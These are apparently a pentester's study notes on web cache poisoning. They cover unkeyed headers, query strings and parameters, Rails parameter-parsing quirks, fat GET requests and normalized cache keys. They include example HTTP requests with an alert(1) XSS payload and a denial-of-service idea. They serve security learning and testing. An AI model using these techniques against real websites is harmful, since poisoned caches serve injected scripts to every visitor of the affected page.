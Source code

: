 # Web cache poisoning

More info about web cache: [web-cache.md](../web-security/web-cache.md "mention")

Two phases:

1. Find a way to trigger a response that unintentionally includes a dangerous payload.
2. Ensure the response is cached and served to the intended victims after success.

## <mark style="color:yellow;">Exploiting cache design flaws</mark>

**Web cache poisoning to deliver XSS**

```http
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

`X-Forwarded-Host` is unkeyed. Exploit: `X-Forwarded-Host: a."><script>alert(1)</script>"`

If this response was cached, all users who accessed `/en?region=uk` would be served this XSS payload

{% hint style="info" %}
**Note**: try also multiple headers

```http
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http

HTTP/1.1 301 moved permanently
Location: https://innocent-site.com/random
```
{% endhint %}

### <mark style="color:yellow;">Exploiting responses that expose too much information</mark>

**Cache-control directives**

A challenge in web cache poisoning is ensuring the harmful response gets cached, often requiring manual trial and error. However, sometimes responses reveal information that helps the attacker successfully poison the cache.

```http
HTTP/1.1 200 OK
Via: 1.1 varnish-v4
Age: 174
Cache-Control: public, max-age=1800
```

**Vary header**

The `Vary` header specifies a list of additional headers that should be treated as part of the cache key even if they are normally unkeyed. For example, it is commonly used to specify that the `User-Agent` header is keyed. If the mobile version of a website is cached, this won't be served to non-mobile users by mistake.

## <mark style="color:yellow;">Exploiting cache implementation flaws</mark>

The methodology involves the following steps:

1. Identify a suitable cache oracle
   * A cache oracle is a cacheable page or endpoint that provides feedback on whether a response was cached or served directly from the server.
2. Identify and evaluate unkeyed inputs
   * Adding random inputs to requests and observing their effect on the response, whether it's directly reflected or triggers a different response.
3. Identify an exploitable gadget
   * These gadgets will often be classic client-side vulnerabilities, such as reflected XSS and open redirects.

{% hint style="success" %}
**Tip**: use Param Miner extension to identify unkeyed inputs (Guess headers)
{% endhint %}

### <mark style="color:yellow;">Unkeyed port</mark> <a href="#unkeyed-port" id="unkeyed-port"></a>

In this way you can:

* Enable a denial-of-service attack by adding an arbitrary port, redirecting users to a non-functional port.&#x20;
* Enable XSS payload injection.

### <mark style="color:yellow;">Unkeyed query string</mark> <a href="#unkeyed-query-string" id="unkeyed-query-string"></a>

Like the Host header, the request line is usually keyed, but one of the most common cache-key transformations is the exclusion of the entire query string.

**Detecting an unkeyed query string**

You can use alternative cache busters, like adding them to a keyed header that doesn’t affect the app’s behavior.

```http
Accept-Encoding: gzip, deflate, cachebuster
Accept: */*, text/cachebuster
Cookie: cachebuster=1
Origin: https://cachebuster.vulnerable-website.com
```

### <mark style="color:yellow;">Unkeyed query parameters</mark> <a href="#unkeyed-query-parameters" id="unkeyed-query-parameters"></a>

Some websites only exclude specific query parameters that are not relevant to the back-end application, such as parameters for analytics or serving targeted advertisements. UTM parameters like `utm_content`.

#### Detection

First time

```http
GET /?first=test1&utm_content=a HTTP/2

HTTP/2 200 OK
X-Cache: miss
```

Second time

```http
GET /?first=test1&utm_content=b HTTP/2

HTTP/2 200 OK
X-Cache: hit
```

{% hint style="success" %}
**Tip**: use Param Miner extension to identify unkeyed inputs (Guess query params)
{% endhint %}

### <mark style="color:yellow;">**Exploiting parameter parsing quirks**</mark>

This happen when back-end identifies distinct parameters that the cache does not. The Ruby on Rails framework, for example, interprets both ampersands (`&`) and semicolons (`;`) as delimiters

```http
GET /?keyed_param=abc&excluded_param=123;keyed_param=bad-stuff-here
```

As the names suggest, `keyed_param` is included in the cache key, but `excluded_param` is not. Many caches will only interpret this as two parameters, delimited by the ampersand:

```
1.    keyed_param=abc
2.    excluded_param=123;keyed_param=bad-stuff-here
```

Once the parsing algorithm removes the `excluded_param`, the cache key will only contain `keyed_param=abc`. On the back-end, however, Ruby on Rails sees the semicolon and splits the query string into three separate parameters:

```
1.    keyed_param=abc
2.    excluded_param=123
3.    keyed_param=bad-stuff-here
```

But now there is a duplicate `keyed_param`. This is where the second quirk comes into play. If there are duplicate parameters, each with different values, Ruby on Rails gives precedence to the final occurrence. The end result is that the cache key contains an innocent, expected parameter value, allowing the cached response to be served as normal to other users. On the back-end, however, the same parameter has a completely different value, which is our injected payload. It is this second value that will be passed into the gadget and reflected in the poisoned response.

### <mark style="color:yellow;">**Exploiting fat GET support**</mark>

Although this scenario is pretty rare, you can sometimes simply add a body to a `GET` request to create a "fat" `GET` request:

```http
GET /?param=innocent HTTP/1.1
[…]
param=bad-stuff-here
```

### <mark style="color:yellow;">Normalized cache keys</mark> <a href="#normalized-cache-keys" id="normalized-cache-keys"></a>

Problem: when you find reflected XSS in a parameter, it is often unexploitable in practice. This is because modern browsers typically URL-encode the necessary characters when sending the request, and the server doesn't decode them.

Example:

You send the follow URL to a victim

```
https://vulnerable.website.net/test<script>alert(1)</script>
```

His browser send the following request

```
GET /test%3Cscript%3Ealert(1)%3C/script%3E HTTP/2
Host: vulnerable.website.net
[...]


HTTP/2 404 Not Found
[...]

<p>Not Found: /test<script>alert(1)</script></p>
```

So, normally this XSS is unexploitable.

**Exploitation with normalized cache keys**

Some caching implementations normalize keyed input when adding it to the cache key. In this case, both of the following requests would have the same key:

```
GET /example?param="><test>
GET /example?param=%22%3e%3ctest%3e
```

When the victim visits the malicious URL, the payload will still be URL-encoded by their browser; however, once the URL is normalized by the cache, it will have the same cache key as the response containing your unencoded payload.
